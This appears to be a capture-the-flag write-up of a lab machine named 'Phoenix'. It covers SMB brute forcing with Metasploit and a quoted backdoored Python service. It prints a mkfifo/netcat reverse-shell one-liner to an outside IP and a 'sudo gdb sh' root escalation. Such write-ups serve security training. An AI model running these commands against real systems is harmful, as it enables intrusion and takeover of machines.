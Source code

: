 # Phoenix

__MACHINE IP__: 10.1.1.12

__DATE__: 22/05/2019

__START TIME__: 4:08


# NMAP

![](images/nmap.png)

There are quite a few port open. Let start our enumeration from HTTP.

# HTTP

![](images/website.png)

I ran `dirsearch` scan on it and found some files.

![](images/dir.png)

But there was nothing interesting in those files. So I decided to enumerate `SMB`.

## SMB

I ran `enum4linux 10.1.1.12`

![](images/enum.png)

We can see that there is a `/scripts` share there but it didn't allowed connection without password. I found that there was a user named `tom`

![](images/username.png)

And obviously there was a username `root`. I tried to do dictionary attack on both `tom` and `root` with hydra but found no passowrd then [@andreas]() said that I should use `msf` to do dictionary attack on SMB and that would give the password. And it actually worked

![](images/brute.png)

`root:lovely`

**NOTE**: Hydra sucks for checking SMB password. Use msf's `scanner/smb/smb_login`.

I connected to SMB share named `/scripts` as root using `lovely` as the password.

![](images/share.png)

Then I downloaded all those files to see if any of those have anything juicy for me. The only interesting script was the `admin-console.py`. It showed that there is a service on port `2003`

```python
client.send("Username ? ".encode())
                data = client.recv(size).decode('utf-8')
                print(data)
                if data:
                    # Set the response to echo back the recieved data
                    if  "tom33094" in (data) :
                        client.send("Welcome Tom ! ".encode())
                        client.send("String ? ".encode())
                        stringo = client.recv(1024).decode()
                        execute(stringo)
                    else:
                        client.send("Login Failed ! ")
                        client.close()
```

when we connect to it it will ask for username, if username is `tom33094` it will take a `string` as input and that input will be passed to `execute` function.

```python
def execute(lol):
    try:
        os.system(lol) #this is our backdoor tom !! in case of attack ..
    except:
        client.send("Bye".encode())
        client.close()
```

execute function just runs that string so we can run a command for our reverse shell. Since this is the BSD machine we'll use

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.254.0.6 4444 >/tmp/f
```

![](images/rev.png)

Then I got the user.txt

![](images/user.png)

## Privilege escalation

I first copied my SSH public key on the server so I can get SSH access.

After getting SSH shell I ran enumeration script and from that I found that user `tom` can run `gdb` with `sudo`.

![](images/sudo-right.png)

you can search gtfobins for `gdb` or you can simply do `sudo gdb sh`, this will load `sh` binary and then just `run` it.

![](images/root-shell.png)

![](images/root.png)

***

This machine was not that much fun to do. The initial foothold was kind boring cause of bruteforce and priv esc also wasn't hard. Still [@h4d3s]() did great job in making this Box.

Also thanks to @4ndr for helping

***
Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.


